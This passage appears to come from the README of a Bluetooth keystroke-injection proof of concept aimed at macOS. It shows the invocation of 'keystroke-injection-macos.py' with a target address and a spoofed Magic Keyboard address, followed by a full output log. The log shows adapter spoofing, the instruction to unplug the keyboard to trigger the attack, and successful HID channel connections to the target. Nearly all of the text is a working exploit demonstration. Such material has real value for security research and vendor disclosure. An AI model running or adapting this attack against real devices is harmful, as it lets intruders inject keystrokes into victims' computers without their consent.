 ##### Invocation

```
./keystroke-injection-macos.py -i hci1 -t 50:DE:06:A8:E1:CA -k 1C:57:DC:88:55:02
```
##### Output

```
[2024-01-07 12:25:43.777]  executing 'sudo service bluetooth restart'
[2024-01-07 12:25:44.324]  configuring Bluetooth adapter
[2024-01-07 12:25:44.461]  executing 'sudo hciconfig hci1 name Hi, My Name is Keyboard'
[2024-01-07 12:25:44.474]  executing 'hciconfig hci1 name'
[2024-01-07 12:25:44.493]  executing 'sudo hciconfig hci1 class 0x002540'
[2024-01-07 12:25:44.506]  executing 'hciconfig hci1 class'
[2024-01-07 12:25:44.509]  executing 'sudo bdaddr -i hci1 1C:57:DC:88:55:02'
[2024-01-07 12:25:44.649]  executing 'hciconfig hci1'
[2024-01-07 12:25:44.652]  connecting to SDP
[2024-01-07 12:25:44.652]  connecting to 50:DE:06:A8:E1:CA on port 1
[2024-01-07 12:25:45.776]  SUCCESS! connected on port 1
[2024-01-07 12:25:45.776]  executing 'sudo btmgmt --index hci1 io-cap 1'
[2024-01-07 12:25:45.788]  executing 'sudo btmgmt --index hci1 ssp 1'
[2024-01-07 12:25:45.795]  connected to SDP (L2CAP 1) on target
[2024-01-07 12:25:45.795]  

----------------------------------------------------------------
| Unplug the Magic Keyboard from the Mac to trigger the attack |
----------------------------------------------------------------

[2024-01-07 12:25:46.014]  b'HCI sniffer - Bluetooth packet analyzer ver 5.64\n'
[2024-01-07 12:25:46.015]  b'device: hci1 snap_len: 1500 filter: 0xffffffffffffffff\n'
[2024-01-07 12:25:46.017]  b'> HCI Event: Number of Completed Packets (0x13) plen 5\n'
[2024-01-07 12:25:46.018]  b'    handle 11 packets 1\n'
[2024-01-07 12:25:47.296]  b'> ACL data: handle 11 flags 0x02 dlen 12\n'
[2024-01-07 12:25:47.297]  b'    L2CAP(s): Connect req: psm 1 scid 0x0506\n'
[2024-01-07 12:25:47.337]  connecting to HID Control
[2024-01-07 12:25:47.337]  connecting to 50:DE:06:A8:E1:CA on port 17
[2024-01-07 12:25:47.788]  ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 12:25:47.788]  connecting to HID Control
[2024-01-07 12:25:47.799]  connecting to 50:DE:06:A8:E1:CA on port 17
[2024-01-07 12:25:47.908]  SUCCESS! connected on port 17
[2024-01-07 12:25:47.908]  connected to HID Control (L2CAP 17) on target
[2024-01-07 12:25:47.908]  connecting to HID Interrupt
[2024-01-07 12:25:47.908]  connecting to 50:DE:06:A8:E1:CA on port 19
[2024-01-07 12:25:47.976]  SUCCESS! connected on port 19
[2024-01-07 12:25:47.976]  connected to HID Interrupt (L2CAP 19) on target
[2024-01-07 12:25:47.976]  [TX-19] a101000000000000000000
[2024-01-07 12:25:48.012]  [RX-17] 71
[2024-01-07 12:25:48.013]  [TX-17] 00
[2024-01-07 12:25:48.048]  [RX-17] 53c601180121
[2024-01-07 12:25:48.048]  [TX-17] 00
[2024-01-07 12:25:48.084]  [RX-17] 53ffbb
[2024-01-07 12:25:48.084]  [TX-17] 00
[2024-01-07 12:25:48.116]  [RX-17] 43f0
[2024-01-07 12:25:48.116]  [TX-17] 00
[2024-01-07 12:25:48.159]  [RX-17] 53ff90
[2024-01-07 12:25:48.160]  [TX-17] 00
[2024-01-07 12:25:48.192]  [RX-17] 41f0
[2024-01-07 12:25:48.192]  [TX-17] 00
[2024-01-07 12:25:48.228]  [RX-17] 53ff34
[2024-01-07 12:25:48.228]  [TX-17] 00
[2024-01-07 12:25:48.265]  [RX-17] 43f0
[2024-01-07 12:25:48.265]  [TX-17] 00
[2024-01-07 12:25:48.296]  [RX-17] 53ff90
[2024-01-07 12:25:48.296]  [TX-17] 00
```